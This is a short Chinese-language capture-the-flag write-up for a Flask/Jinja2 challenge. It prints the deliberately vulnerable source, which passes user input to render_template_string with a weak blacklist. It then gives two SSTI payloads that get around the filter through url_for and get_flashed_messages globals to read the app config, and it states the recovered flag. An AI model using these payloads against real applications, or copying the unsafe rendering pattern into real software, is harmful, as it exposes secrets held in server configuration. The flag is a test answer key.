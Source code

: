 题目给出了源码：

```python
import flask 
import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 

@app.route('/shrine/') 
def shrine(shrine):
     def safe_jinja(s): 
         s = s.replace('(', '').replace(')', '') 
         blacklist = ['config', 'self'] 
         return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
     return flask.render_template_string(safe_jinja(shrine)) 
         
if __name__ == '__main__': 
    app.run(debug=True)
```

基本确定是采用模板注入，但是其使用过滤了（、）、config、self。需要绕过这些过滤条件：

```
{{url_for.__globals__['current_app'].config}}

{{get_flashed_messages.__globals__['current_app'].config}}
```

得到flag：flag{shrine_is_good_ssti}

